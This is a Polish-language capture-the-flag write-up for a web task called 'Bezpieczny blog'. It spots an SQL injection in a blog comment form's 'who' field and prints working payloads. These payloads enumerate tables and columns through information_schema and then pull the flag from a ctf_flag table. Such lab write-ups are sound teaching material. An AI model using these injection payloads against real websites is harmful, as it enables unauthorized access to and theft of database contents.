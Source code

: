 # Bezpieczny blog
#####  web
##### Punkty: 150
##### Rozwiązań: 6

>Niedawno postanowiłem ochronić swój blog przed rozmaitymi cyberzagrożeniami poprzez wdrożenie na nim Content-Security-Policy. Nigdy więcej cyberataków!
> Mój blog: https://blog.pwning2017.p4.team/.
---

Pod podanym adresem znajdujemy stronę:
```html
<h1>Cyber Security Blog</h1>
<p>
    Welcome to my cyber security blog. There is no content yet because I'm too busy with fighting malware
    on all OSI layers. You may leave a comment tho.
</p>
<h2>Comments</h2>
<h2>Post comment</h2>
<form action="/submit" method="POST">
    <input type="hidden" name="post_id" value="1"><br>
    Who: <input type="text" name="who"><br>
    Text: <input type="text" name="text">

    <button type="submit">Submit</button>
</form>
```

Po przesłaniu znaku `"` w parametrze `who` serwer odpowiada HTTP 500 Internal Server Error. Można więc przypuszczać, że kod serwera podatny jest na SQL Injection.
Wysyłając `aaa"` w parametrze `who` i `"bbb` w paremetrze text dostajemy `aaa", content = "bbb None` co potwierdza nasze przypuszczenie. Zapytanie wysyłane do bazy zapewne konstruowane jest w sposób następujący:
`INSERT INTO table_name SET who="...", content="...";`

Możemy to wykorzystać żeby wyciągnąć z bazy takie dane jak nazwy tabel i nazwy kolumn.
W parametrze `who` podajemy `", content=(SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 1 OFFSET 0)#`, oraz `", content=(SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 1 OFFSET 1)#` aby dodać komentarze zawierające nazwy dwóch tabel - `blog_comment` i `ctf_flag`.

Aby poznać nazwy kolumn odpowiednich tabel, parametr `who` ustawiamy następująco: `", content=(SELECT column_name FROM information_schema.columns WHERE table_name = 'blog_comment' LIMIT 1 OFFSET 1)#`, odpowiednio manipulując parametrmi `table_name` i `OFFSET`.

Po wykonaniu powyższych kroków znamy już schemat bazy który wygląda następująco:
* `blog_comment(id, instance, post_id, who, content)`
* `ctf_flag(flag)`

Ustawiając paremetr `who` na `", content=(SELECT flag from ctf_flag LIMIT 1)#` dodajemy komentarz, którego treścią jest flaga.